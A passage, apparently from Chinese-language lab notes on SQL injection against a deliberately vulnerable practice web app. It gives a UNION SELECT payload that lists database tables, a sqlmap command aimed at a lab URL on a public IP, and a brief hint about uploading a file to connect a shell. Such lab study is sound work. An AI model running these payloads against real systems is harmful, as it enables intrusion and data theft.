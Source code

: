 单引号破坏结构报错

```
1' union select group_concat(table_name),2 from information_schema.tables where table_schema=database() --+&submit=查询
```

![image-20250914185756624](images/image-20250914185756624.png)



### 搜索型注入

```
python sqlmap.py -u "http://47.242.11.182:8080/vul/sqli/sqli_search.php?name=1&submit=搜索" --dbs
```













上传一个img直接连接

![image-20250914192007576](images/image-20250914192007576.png)
